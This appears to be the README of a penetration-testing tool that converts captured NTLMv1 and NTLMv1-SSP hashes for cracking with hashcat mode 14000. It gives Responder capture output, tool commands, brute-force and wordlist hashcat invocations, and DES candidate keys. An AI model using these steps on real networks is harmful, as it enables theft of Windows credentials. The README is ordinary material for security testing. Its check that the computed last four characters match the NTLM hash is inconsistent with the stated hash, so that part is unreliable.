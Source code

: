 # ntlmv1-multi
NTLMv1 Multitool

This tool modifies NTLMv1/NTLMv1-ESS/MSCHAPv1 hashes so they can be cracked with DES Mode 14000 in hashcat

This tool is based on work done by atom of team Hashcat https://hashcat.net/forum/thread-5832.html

It is also based on https://hashcat.net/forum/thread-5912.html and https://www.youtube.com/watch?v=LIHACAct2vo

# Usage

## NTLMv1 without SSP
To capture use responder with the --lm flag, without --lm you will activate SSP which requires a different tool.

The capture will look like this.
```
[SMB] NTLMv1 Client   : 184.64.60.62
[SMB] NTLMv1 Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1 Hash     : hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
[*] Skipping previously captured hash for DUSTIN-5AA37877\hashcat
```

The hash portion looks like this
```
hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```

So use the multi tool like so
```
python ntlmv1.py --nossp hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```

It will output the following data without modifing server challenges etc
```
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now the first and most important thing is the password used in this case is hashcat and we can verify the ntlm hash with
```
echo -n hashcat | iconv -f utf8 -t utf16le | openssl dgst -md4
(stdin)= b4b9b02e6f09a9bd760f388b67351e2b
```

With hashcat utils ct3_to_ntlm.bin that atom wrote you can calculate the last 4 characters of the NTLM hash from the NTLMv1 challenge, which the tool outputs
```
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788
568c
```

This matches up to the end of the ntlm hash so we are good to go, the next step is cracking the hashes with hashcat so we need to make a hashes.txt file with
```
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```

To crack this with hashcat you use
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Alternatively if you are just testing my code and know the password already you can use the des converter
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

Basically you do the following
```
echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```
./hashcat -m 14000 -a 0 -1 charsets/DES_full.charset --hex-charset hashes.txt des.cand
```

And you should have some reversed hashes

## NTLMv1 with SSP
SSP changes the server challenge, if you see SSP in your responder because you didn't use --lm or the client is set not to give out a LM response then SSP gets engaged.

The SSP output looks like this
```
[SMB] NTLMv1-SSP Client   : 184.64.60.62
[SMB] NTLMv1-SSP Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1-SSP Hash     : hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

The actual hash looks like this
```
hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

The hashcat forums post do not use SSP, so don't try to use the SSP on on ssp hashes, you will see a stackload of zero's and thats how you can tell as the LM Response is mangled.

To use the tool run
```
python ntlmv1-ssp.py --ssp "hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788"
```

The tool will output
```
Hashfield Split:
['hashcat', '', 'DUSTIN-5AA37877', '85D5BC2CE95161CD00000000000000000000000000000000', '892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
LM Response: 85D5BC2CE95161CD00000000000000000000000000000000
NT Response: 892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0
Client Challenge: 1122334455667788
SRV Challenge: b36d2b9a8607ea77

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 1122334455667788 85D5BC2CE95161CD00000000000000000000000000000000

To crack with hashcat create a file with the following contents:
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now the password we are using in this case is hashcat which has and ntlm hash of ```b4b9b02e6f09a9bd760f388b67351e2b```
```
echo -n hashcat | iconv -f utf8 -t utf16le | openssl dgst -md4
(stdin)= b4b9b02e6f09a9bd760f388b67351e2b
```

So to calculate the last 4 characters of the ntlm hash for our NTLMv1-SSP chalenge we use the following command from the tool output to get ```586c```
```
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 1122334455667788 85D5BC2CE95161CD00000000000000000000000000000000
```

We must make a hash file with the following content according to the tool which has the modified SRV Challenges to deal with ESS
```
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77
```

To crack with hashcat we use the following according to the tool
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now assuming we already knew what the ntlm hash was in the case because we made it and want to validate the tooling we use the following
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
```

This will output some data for us
```
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

The important part here is
```
echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

Now we can crack with hashcat using the following and not waiting 8 days
```
./hashcat -m 14000 -a 0 -1 charsets/DES_full.charset --hex-charset hashes.txt des.cand
```



## NTLM hash to DES Key Converter for data validation testing
```
python ntlm-to-des.py  --ntlm 8846f7eaee8fb117ad06bdd830b7586c
```
```
DESKEY1: b55d6d05e6792652
DESKEY2: bdba82e6895a9d6a

echo b55d6d05e6792652>>des.cand
echo bdba82e6895a9d6a>>des.cand
```
